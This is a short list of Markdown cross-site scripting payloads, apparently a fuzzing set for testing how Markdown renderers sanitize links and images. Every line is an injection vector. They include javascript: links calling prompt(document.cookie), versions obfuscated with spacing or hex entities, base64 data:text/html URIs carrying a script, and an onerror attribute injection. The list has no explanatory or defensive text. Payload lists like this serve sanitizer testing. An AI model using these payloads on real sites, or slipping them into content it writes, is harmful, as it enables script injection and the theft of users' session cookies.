 [a](javascript:prompt(document.cookie))
[a](j    a   v   a   s   c   r   i   p   t:prompt(document.cookie))
![a](javascript:prompt(document.cookie))\
<javascript:prompt(document.cookie)>  
<&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>  
![a](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)\
[a](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)
[a](&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29)
![a'"`onerror=prompt(document.cookie)](x)\
[citelol]: (javascript:prompt(document.cookie))
[notmalicious](javascript:window.onerror=alert;throw%20document.cookie)
[test](javascript://%0d%0aprompt(1))
[test](javascript://%0d%0aprompt(1);com)

